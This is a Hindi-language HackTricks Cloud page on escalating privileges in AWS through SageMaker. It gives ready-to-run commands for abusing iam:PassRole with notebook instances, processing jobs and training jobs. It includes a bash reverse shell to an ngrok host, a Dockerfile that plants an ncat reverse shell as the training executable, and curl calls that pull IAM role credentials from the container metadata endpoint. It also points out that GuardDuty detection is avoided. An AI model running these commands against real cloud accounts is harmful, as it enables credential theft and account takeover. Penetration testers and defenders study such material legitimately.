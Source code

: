 # AWS - Sagemaker विशेषाधिकार उन्नयन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

इस हमले की प्रक्रिया में पहला कदम है **एक रोल की पहचान करना जो SageMaker को इसे मान्यता देने के लिए विश्वस्त है** (sagemaker.amazonaws.com)। एक बार जब यह हो जाए, हम निम्नलिखित कमांड चला सकते हैं ताकि उस रोल के साथ एक नया नोटबुक बनाया जा सके:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
यदि सफल होते हैं, तो आपको AWS से प्रतिक्रिया में **नए नोटबुक इंस्टेंस का ARN** प्राप्त होगा। इसके लिए कुछ मिनट लगेंगे, लेकिन एक बार यह हो जाएगा, हम निम्नलिखित कमांड चला सकते हैं ताकि हम **वेब ब्राउज़र के माध्यम से नोटबुक इंस्टेंस तक पहुंच प्राप्त** कर सकें। यहां तक कि पहुंच प्राप्त करने के लिए अन्य तरीके भी हो सकते हैं, लेकिन यह एकल अनुमति और एकल API कॉल है, इसलिए यह सरल लगा।
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
यदि यह इंस्टेंस पूरी तरह से चालू हो गया है, तो यह API कॉल हमें एक **साइन की गई URL देगा जिसे हम इंस्टेंस तक पहुंचने के लिए अपने ब्राउज़र में देख सकते हैं**। अपने ब्राउज़र में Jupyter पेज पर पहुंचने के बाद, मैं ऊपर दाएं कोने में "Open JupyterLab" पर क्लिक करूंगा, जो निम्न चित्र में दिखाई देता है।

![](<../../../.gitbook/assets/image (15) (1).png>)

अगले पेज पर, "लॉन्चर" टैब में नीचे तक स्क्रॉल करें। "अन्य" खंड के तहत, "टर्मिनल" बटन पर क्लिक करें, जो यहां दिखाई देता है।

![](<../../../.gitbook/assets/image (27).png>)

टर्मिनल से हमारे पास कुछ विकल्प हैं, जिनमें से एक विकल्प होगा केवल **AWS CLI का उपयोग करना**। दूसरा विकल्प होगा कि आप सीधे IAM रोल के क्रेडेंशियल के लिए EC2 मेटाडेटा सेवा से संपर्क करें और उन्हें बाहर निकालें।

"उन्हें बाहर निकालें" पढ़ते समय गार्डड्यूटी याद आ सकता है, हालांकि, हमें वास्तव में यहां गार्डड्यूटी की चिंता करने की आवश्यकता नहीं है। संबंधित गार्डड्यूटी फाइंडिंग [“UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration”](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_unauthorized.html#unauthorized11) है, जो अलर्ट करेगा यदि एक रोल के क्रेडेंशियल EC2 इंस्टेंस से चुराए जाते हैं और कहीं अन्य उपयोग किए जाते हैं। हमारे लिए भाग्यशाली रूप से, यह EC2 इंस्टेंस वास्तव में हमारे खाते में नहीं रहता है, बल्कि यह एक **AWS के स्वामित्व वाले खाते में होस्ट किए गए EC2 इंस्टेंस है**। इसका अर्थ है कि **हम इन क्रेडेंशियल्स को बाहर निकाल सकते हैं और अपने लक्ष्य के गार्डड्यूटी डिटेक्टर्स को ट्रिगर करने की चिंता नहीं करनी पड़ेगी**।

**संभावित प्रभाव:** निर्दिष्ट सेजमेकर सेवा रोल के लिए प्राइविलेज़ इस्केलेशन।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

पिछले उदाहरण की तरह, यदि Jupyter **नोटबुक पहले से ही चल रहे हैं** और आप उन्हें sagemaker:ListNotebookInstances के साथ सूचीबद्ध कर सकते हैं (या उन्हें किसी अन्य तरीके से खोज सकते हैं)। आप उनके लिए एक URL **उत्पन्न कर सकते हैं, उन्हें एक्सेस कर सकते हैं और पिछले तकनीक में दिखाए गए क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**पोटेंशियल प्रभाव:** सेजमेकर सेवा रोल को उन्नत करना।

### `sagemaker:CreateProcessingJob,iam:PassRole`

उन अधिकारों के साथ एक हमलावर सेजमेकर को सेजमेकर रोल के साथ एक प्रोसेसिंग जॉब को निष्पादित करने के लिए कर सकता है। हमलावर को इसके साथ चलाने वाले AWS प्रबंधित ECS खाते के एक इंस्टेंस में चलाने वाले कंटेनर की परिभाषा दर्ज कर सकता है, और इसके साथ जुड़े IAM रोल के क्रेडेंशियल्स चुरा सकता है।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**पोटेंशियल प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका में उच्चाधिकार अवस्थान करना।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

इन अनुमतियों के साथ एक हमलावर सिखाने के लिए सक्षम होगा, इसमें एक विशेष भूमिका के साथ एक अनियंत्रित कंटेनर चलाया जा सकता है। इसलिए, हमलावर भूमिका के क्रेडेंशियल्स को चुरा सकेगा।

{% hint style="warning" %}
यह परिदृश्य पिछले वाले से अधिक कठिन है क्योंकि आपको एक डॉकर इमेज उत्पन्न करना होगा जो रेव शेल या क्रेडेंशियल्स को सीधे हमलावर को भेजेगा (आप ट्रेनिंग जॉब के विन्यास में एक प्रारंभिक कमांड नहीं निर्दिष्ट कर सकते हैं)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**पोटेंशियल प्रभाव:** निर्दिष्ट सेजमेकर सेवा भूमिका में उन्नयन करना।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

इन अनुमतियों के साथ एक हमलावर्ती को (संभवतः) एक **हाइपरपैरामीटर प्रशिक्षण नौकरी** बनाने की क्षमता होगी, उस पर एक **विचित्र कंटेनर चलाने** के साथ इसे जुड़े एक **भूमिका** के साथ।\
_मैंने समय की कमी के कारण इसका शोध नहीं किया है, लेकिन पिछले शोधों के समान दिखता है, एक PR भेजने के लिए उत्पादन विवरण के साथ मुक्त हो जाएं।_

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
